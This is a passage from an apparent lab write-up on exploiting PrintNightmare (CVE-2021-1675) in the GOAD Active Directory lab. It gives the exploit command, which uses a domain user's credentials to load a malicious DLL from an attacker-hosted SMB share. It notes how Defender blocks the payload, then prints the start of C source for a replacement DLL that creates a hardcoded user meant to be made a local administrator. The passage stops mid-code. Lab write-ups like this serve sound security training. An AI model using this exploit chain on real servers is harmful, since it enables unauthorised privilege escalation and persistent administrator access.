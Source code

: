 ```shell
python3 CVE-2021-1675.py north.sevenkingdoms.local/jon.snow:'iknownothing'@north.sevenkingdoms.local '\\192.168.56.1\ATTACKERSHARE\nightmare.dll'
```

- And it works too but the user is not in the administrators group :(
- Nothing due to the exploit, it is just our dll who add a user as administrator who get caught when user is setup as administrator

![defender.png](/assets/blog/GOAD/defender.png)

- Good (thing) to know : after some failures the spooler service will be stopped by defender and no more exploit for you until someone restart the server or the spooler service.


- Let's change the payload with another code (source : https://github.com/newsoft/adduser )

```c++
/*
 * ADDUSER.C: creating a Windows user programmatically.
 */

#define UNICODE
#define _UNICODE

#include <windows.h>
#include <string.h>
#include <lmaccess.h>
#include <lmerr.h>
#include <tchar.h>


DWORD CreateAdminUserInternal(void)
{
    NET_API_STATUS rc;
    BOOL b;
    DWORD dw;

    USER_INFO_1 ud;
    LOCALGROUP_MEMBERS_INFO_0 gd;
    SID_NAME_USE snu;

    DWORD cbSid = 256;    // 256 bytes should be enough for everybody :)
    BYTE Sid[256];

    DWORD cbDomain = 256 / sizeof(TCHAR);
    TCHAR Domain[256];

    // Create user
    memset(&ud, 0, sizeof(ud));

    ud.usri1_name        = _T("pnightmare2");                // username
    ud.usri1_password    = _T("Test123456789!");             // password
    ud.usri1_priv        = USER_PRIV_USER;                   // cannot set USER_PRIV_ADMIN on creation
    ud.usri1_flags       = UF_SCRIPT | UF_NORMAL_ACCOUNT;    // must be set
    ud.usri1_script_path = NULL;

```